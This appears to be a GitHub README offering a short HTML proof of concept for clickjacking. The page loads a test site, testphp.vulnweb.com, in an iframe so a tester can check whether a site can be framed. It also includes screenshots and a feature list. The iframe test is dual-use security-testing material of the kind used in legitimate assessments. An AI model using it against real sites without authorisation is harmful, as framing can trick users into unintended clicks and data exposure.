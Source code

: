 # PoC:1 Clickjacking Vulnerability

**Description:**
This repository hosts a professional Proof of Concept (PoC) showcasing the Clickjacking vulnerability in web applications. Clickjacking represents a significant security concern, allowing unauthorized manipulation of user interactions and data access.

- Save code with .html extension.
- Change with your URL want to test.
  
```html 
<html>
<title>Click Jacking</title>
<meta name="author" content="m14r41">
<head></head>
<body>
    <font color="white" size="30">
        <h2 style="font-weight: bold; color: black">Clickjacking Vulnerability Poc</h2>
        <p style="font-weight: bold; color: rgb(146, 83, 83)">This vulnerability presents a security risk, allowing for potential manipulation</br> of user interactions and unauthorized data access without user consent.</p>
        <iframe src="http://testphp.vulnweb.com/" width="70%" height="70%"></iframe>
</body>
</html>
```

---

![image](https://github.com/m14r41/Clickjacking-Poc/assets/95265573/42fd8f35-bd40-480e-87a1-fafc8392ab21)

## PoC:2 Online Poc
![image](https://github.com/user-attachments/assets/96a93f3b-0a38-48b8-97e2-ccf5aeb27cfc)


**Features:**

- A clear title explaining the repository's purpose.
- A concise explanation of Clickjacking vulnerability.
- Inclusion of an `<iframe>` element demonstrating a common Clickjacking vector.

**By:** [m14r41](https://github.com/m14r41)

